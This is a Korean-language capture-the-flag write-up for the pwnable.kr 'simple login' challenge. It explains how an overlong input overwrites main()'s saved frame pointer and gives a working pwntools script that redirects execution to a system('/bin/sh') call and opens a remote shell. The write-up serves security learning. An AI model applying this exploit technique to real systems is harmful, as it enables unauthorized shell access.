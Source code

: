 # [pwnable.kr] simple login

> Can you get authentication from this server?
>
> Download : http://pwnable.kr/bin/login
>
> Running at : nc pwnable.kr 9003

## Bug

![image](https://github.com/user-attachments/assets/dc4ecb23-f54b-440c-b262-2c9894a211ca)

`auth()`에 들어오는 `input`의 길이는 최대 `0xc`이다. 그런데 이 `input`을 `ebp-0x8`에 위치한 `v4`의 위치에 복사한다.

![image](https://github.com/user-attachments/assets/aa15fd9f-ff8e-4040-9cbe-411c596877e1)

![image](https://github.com/user-attachments/assets/11d7a2aa-83e6-4b58-b24d-21dd8d413eed)

따라서 `ebp`에 저장된 값을 원하는 값으로 덮어쓸 수 있다.

`auth()`의 `ebp`에 저장된 값은 `auth()`가 return된 후에 진행되는 `main()`의 `ebp`가 된다.

![image](https://github.com/user-attachments/assets/25b6081a-1a12-4aa0-9f10-05e4765760e6)

`main()`의 return address는 `ebp+0x4`에 위치하기 때문에, 이를 이용하여 실행 흐름을 조작할 수 있다.

## Exploit

`correct()`에서 `system("/bin/sh")`을 호출하는 코드의 주소를 `input`에 넣고 `main()`의 `ebp`를 `input`의 주소에서 4를 뺀 값으로 조작하면 `main()`은 `correct()`로 return하게 된다.

```python
# ex.py

from pwn import process, remote, p32, pause
from base64 import b64encode

r = remote("pwnable.kr", 9003)

correct = 0x804925F  # correct()
inp = 0x811EB40  # input

payload = p32(correct + 37)  # address of system("/bin/sh")
payload = payload.ljust(8, b"A")
payload += p32(inp - 4)  # fake ebp of main()

payload = b64encode(payload)

r.sendlineafter(b"Authenticate : ", payload)

r.interactive()
```

![image](https://github.com/user-attachments/assets/5b07cfdc-1674-4f64-aa48-2dcb7fd64a5d)
